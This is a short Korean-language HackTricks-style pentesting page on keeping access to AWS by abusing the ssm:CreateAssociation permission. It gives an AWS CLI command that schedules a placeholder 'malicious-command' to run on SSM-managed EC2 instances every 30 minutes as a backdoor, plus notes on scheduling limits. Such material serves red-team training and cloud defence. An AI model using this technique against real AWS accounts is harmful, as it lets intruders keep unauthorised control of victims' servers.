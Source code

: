 # AWS - SSM 지속성

{{#include ../../../banners/hacktricks-training.md}}

## SSM

자세한 정보는 다음을 확인하세요:

{{#ref}}
../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/README.md
{{#endref}}

### 지속성을 위한 ssm:CreateAssociation 사용

**`ssm:CreateAssociation`** 권한이 있는 공격자는 SSM에 의해 관리되는 EC2 인스턴스에서 명령을 자동으로 실행하기 위해 State Manager Association을 생성할 수 있습니다. 이러한 연관은 고정 간격으로 실행되도록 구성할 수 있어, 대화형 세션 없이 백도어와 같은 지속성에 적합합니다.
```bash
aws ssm create-association \
--name SSM-Document-Name \
--targets Key=InstanceIds,Values=target-instance-id \
--parameters commands=["malicious-command"] \
--schedule-expression "rate(30 minutes)" \
--association-name association-name
```
> [!NOTE]
> 이 지속성 방법은 EC2 인스턴스가 Systems Manager에 의해 관리되고, SSM 에이전트가 실행 중이며, 공격자가 연관성을 생성할 수 있는 권한이 있는 한 작동합니다. 대화형 세션이나 명시적인 ssm:SendCommand 권한이 필요하지 않습니다. **중요:** `--schedule-expression` 매개변수(예: `rate(30 minutes)`)는 AWS의 최소 간격인 30분을 준수해야 합니다. 즉시 또는 일회성 실행을 위해서는 `--schedule-expression`을 완전히 생략하십시오 — 연관성은 생성 후 한 번 실행됩니다.

{{#include ../../../banners/hacktricks-training.md}}
